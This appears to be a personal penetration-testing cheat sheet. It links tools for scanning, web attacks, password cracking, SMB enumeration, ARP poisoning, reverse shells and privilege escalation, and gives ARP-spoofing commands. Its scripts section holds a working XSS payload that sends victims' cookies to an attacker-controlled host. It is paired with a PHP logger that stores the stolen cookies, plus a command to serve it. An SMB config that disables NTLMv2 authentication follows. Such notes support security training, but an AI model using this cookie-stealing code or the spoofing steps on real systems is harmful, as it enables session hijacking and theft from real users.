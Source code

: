 # Tools
## connectivity / port scanning
- [[icmp]]
- [[nmap]]
- [[ssl]]
- `sublist3r` **still needs some work**
- `amass` **still needs some work**
-   [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper)
-   [egress-checking](https://labs.mwrinfosecurity.com/blog/egress-checking)
-   [dnsdumpster.com](http://dnsdumpster.com)

## Web Apps
- `httprint -P0 -h -s` **needs some work**
- [[http_dirs]]

### SQL injection
- [[sql]]
- [mysql cli](https://dev.mysql.com/doc/refman/8.0/en/mysql.html)

### Web shells
- [[web_shells]]

## Bruteforcing and cracking
-   [[john]]
- [[password_lists]]
- [[hask_cat]]
- [hash-id](https://pypi.org/project/hashID)
- https://www.tunnelsup.com/hash-analyzer/
-   `ophcrack`
- [[hydra]]
-   [one-rule-to-rule-them-all/](https://notsosecure.com/one-rule-to-rule-them-all/)
-   [commom passwords](https://wiki.skullsecurity.org/Passwords)

## SMB enumeration
-   relevant ports: 135,139,445
-   [[win_smb_enum]]
- [[linux_smb_enum]]

## ARP poisoning
-   configure routing `echo 1 > /rpoc/sys/net/ipv4/ip_forward`OR `sudo sysctl -w net.ipv4.ip_forward=1`
-   `arpspoof -i <interface> -t <target victim> -r <host victim>` 
-   use wireshark to watch the traffic pass through

## MetaSploit
-   [metasploit](https://www.metasploit.com)
- [[metasploit]]
## shells
- [[netcat]]
- [[socat]]
- [[bash_shells]]
- [[powershell_shells]]
-   [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
-   [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#golang)
-   [shell upgrading to tty](https://netsec.ws/?p=337)
- `/usr/share/webshells` in kali
- fix row / column size
	- `stty -a` retrieve default settings for terminal
	- replace target settings with these numbers: `stty rows <number>` and `stty cols <number>`

## PrivEsc
- [[linux_privesc]]
- [[windows_privesc]]

### msfvenom
- [[msfvenom]]

# scripts
## XSS
### target
```
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
### attacker
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```
run with: `php -S 0.0.0.0:8090`
# configs for SMB
```
client min protocol = CORE
client max protocol = SMB3 
client use spnego = no 
client ntlmv2 auth = no
```
